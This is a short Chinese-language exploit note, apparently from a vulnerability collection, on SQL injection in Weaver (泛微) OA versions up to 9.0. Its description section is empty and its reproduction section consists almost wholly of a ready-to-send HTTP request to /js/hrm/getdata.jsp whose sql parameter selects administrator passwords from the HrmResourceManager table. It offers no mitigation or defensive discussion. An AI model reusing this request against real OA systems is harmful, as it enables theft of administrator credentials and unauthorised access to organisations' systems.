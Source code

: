 泛微OA \< =9.0 sql注入漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

泛微OA \< =9.0

三、复现过程
------------

    GET //js/hrm/getdata.jsp?cmd=getSelectAlld&sql=select%20password%20as%20id%20from%20HrmResourceManager HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie:
    Connection: close
